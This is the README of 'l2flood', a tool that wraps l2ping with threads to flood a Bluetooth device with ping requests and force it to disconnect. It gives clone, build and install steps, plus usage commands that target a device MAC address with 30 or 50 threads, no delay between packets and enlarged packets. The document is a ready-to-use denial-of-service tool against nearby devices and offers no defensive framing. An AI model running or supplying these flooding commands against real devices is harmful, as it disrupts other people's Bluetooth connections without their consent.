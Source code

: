 # l2flood

[l2ping][1] with threads.

Flood a given bluetooth device with ping requests in order to force it to
disconnect.

# INSTALL

```bash
git clone https://github.com/kovmir/l2flood
cd l2flood
make
sudo make install
```

# USAGE

```bash
l2flood 94:3a:2c:e1:2b:07 # Flood a given device using 30 threads.
l2flood -n 50 94:3a:2c:e1:2b:07 # Flood a given device using 50 threads.
```

* The default delay between packets has been changed to `0`.
* The default data packet size has been increase to `600`.
* `l2ping` options work.

[1]: https://linux.die.net/man/1/l2ping
